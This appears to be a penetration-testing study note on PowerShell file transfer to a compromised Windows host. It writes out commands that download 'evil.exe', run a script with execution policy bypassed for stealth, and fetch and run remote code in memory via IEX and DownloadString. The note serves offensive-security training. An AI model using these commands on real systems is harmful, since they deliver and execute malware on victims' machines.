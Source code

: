 ```yaml
---
description: >-
  Powershell File Download
title: Powershell Download              # Add title here
date: 2023-01-29 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Powershell Download]                     # Change Templates to Writeup
tags: [file transfer, powershell download]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### iwr (Invoke-Web-Request)
Transfer a file with the following command:
```bash
PS> iwr -uri http://10.10.14.4/PsBypassCLM.exe -OutFile PsBypassCLM.exe
```
[[Sizzle#^]]
Execute this commands to create wget.ps1 on victim machine:
```powershell
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >> wget.ps1
echo $file = "new-exploit.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```
To ensure both correct and stealthy execution, we specify a number of options in the execution of the script, it must be executed on cmd as shown below:
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
One-liner of the above command:
```bash
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://localhost/evil.exe', 'new-exploit.exe')
```
If we want to download and execute a PowerShell script without saving it to disk, we can once again use the System.Net.Webclient class. This is done by combining the DownloadString method with the Invoke-Expression cmdlet (IEX).3
To demonstrate this, we will create a simple PowerShell script on our Kali machine:
```bash
kali@kali:/var/www/html$ sudo cat helloworld.ps1 
Write-Output "Hello World"
```

Next, we will run the script with the following command on our compromised Windows machine (Listing 21):
```powershell
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```
